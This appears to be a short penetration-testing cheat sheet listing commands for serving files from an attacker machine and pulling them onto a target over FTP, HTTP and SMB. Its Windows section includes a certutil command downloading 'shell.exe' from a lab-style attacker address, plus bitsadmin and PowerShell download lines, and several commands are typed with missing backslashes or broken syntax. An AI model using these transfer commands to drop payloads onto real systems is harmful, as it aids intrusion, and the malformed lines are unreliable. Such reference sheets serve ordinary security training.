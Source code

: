 # Serve

### FTP 
````
Python –c pyftpdlib –p 21 –write
````

### HTTP 
````
sudo python3 -m http.server 80 
sudo python -m SimpleHTTPServer 80 
````

### SMB 
````
sudo impacket-smbserver <sharename> <share path>
````


# Client 
### From Windows 

FTP Upload / Download 
````
echo "open <IP> ">ftp.txt
echo "user">>ftp.txt
echo "pass">>ftp.txt
echo "bin">>ftp.txt
echo "get file.exe">>ftp.txt
echo "put file.exe">>ftp.txt
echo "bye">>ftp.txt

ftp -s ftp.txt
````

HTTP  Download 
````
certutil -urlcache -f http://10.10.14.12:8000/shell.exe shell.exe 
bitsadmin /transfer n http://domain/file c:%homepath%file


Powershell 
$p = New-Object System.Net.WebClient $p.DownloadFile("http://domain/file" "C:%homepath%file")
PS C:> .test.ps1
````

SMB Upload / Download 
````
copy \\IP-address\share\x x 
net view \\<ip>
net use x: \127.0.0.1share /user:example.comuserID myPassword

````


### From Linux 

wget 
curl
python
perl
ruby

````

